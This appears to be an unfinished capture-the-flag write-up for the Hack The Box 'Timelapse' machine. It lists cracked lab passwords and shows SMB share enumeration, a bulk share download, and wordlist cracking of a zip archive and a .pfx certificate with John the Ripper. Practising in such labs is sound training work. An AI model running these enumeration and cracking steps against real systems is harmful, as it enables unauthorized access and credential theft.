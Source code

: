 ## Info

### Credential

| User | Password      | Service              | Note |
| ---- | ------------- | -------------------- | ---- |
|      | supremelegacy | winrm_backup.zip     |      |
|      | thuglegacy    | legacyy_dev_auth.pfx |      |

### SMB shares

```bash
ice1187@ice1187-lab:~/repo/htb/timelapse$ smbclient -L $ip
Enter WORKGROUP\ice1187's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Shares          Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

## Path

### User

1. With `enum4linux-ng`, we can find the domain is `timelapse.htb` and get the shares access permission.

```bash
$ enum4linux-ng -u ice1187 -A timelapse.htb
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[-] Could not parse result of smbclient command, please open a GitHub issue
[*] Testing share SYSVOL
[-] Could not parse result of smbclient command, please open a GitHub issue
[*] Testing share Shares
[+] Mapping: OK, Listing: OK
```

2. Download all the files from `Shares` share.

```
$ smbclient -U ice1187 //timelapse.htb/Shares
Enter WORKGROUP\ice1187's password:
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

3. Brute force the password of `Shares/Dev/winrm_backup.zip`, and extract the file `legacyy_dev_auth.pfx`.

```
$ john --format=PKZIP --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ./winrm_backup.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2022-04-18 19:38) 4.000g/s 13877Kp/s 13877Kc/s 13877KC/s surken201..suppamart
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

4. Read `.pfx` file

```
$ openssl pkcs12 -info -in legacyy_dev_auth.pfx
Enter Import Password:
$ /opt/john/run/pfx2john.py ./legacyy_dev_auth.pfx > ./legacyy_dev_auth.john
$ john --format=pfx --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ./legacyy_dev_auth.john
...
thuglegacy       (legacyy_dev_auth.pfx)
$ openssl pkcs12 -nodes -info -in legacyy_dev_auth.pfx -out ./legacyy_dev_auth.txt
```

5. All the files in `smb/HelpDesk/` are the same as those downloaded from [Microsoft Website](https://www.microsoft.com/en-us/download/details.aspx?id=46899).

\*\*TODO:

1. What can .pfx file do? => Winrm auth?
2. What can the files under smb/HelpDesk do? => Nothing
